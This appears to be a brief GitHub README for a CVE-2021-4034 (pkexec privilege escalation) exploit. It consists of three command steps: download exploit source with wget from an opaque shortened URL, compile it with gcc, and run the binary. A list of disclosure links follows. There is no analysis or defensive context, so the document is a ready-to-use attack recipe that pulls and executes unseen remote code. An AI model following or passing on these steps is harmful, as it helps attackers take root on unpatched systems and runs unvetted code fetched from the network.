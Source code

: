 ### Download exploit
```
wget https://t.co/uwLR65WjDY -O exploit.c
```

### Compile
```
gcc exploit.c
```

### Execute
```
./a.out
```

### References
* https://www.openwall.com/lists/oss-security/2022/01/25/11  
* https://twitter.com/bl4sty/status/1486095005605318659  
* https://github.com/berdav/CVE-2021-4034  

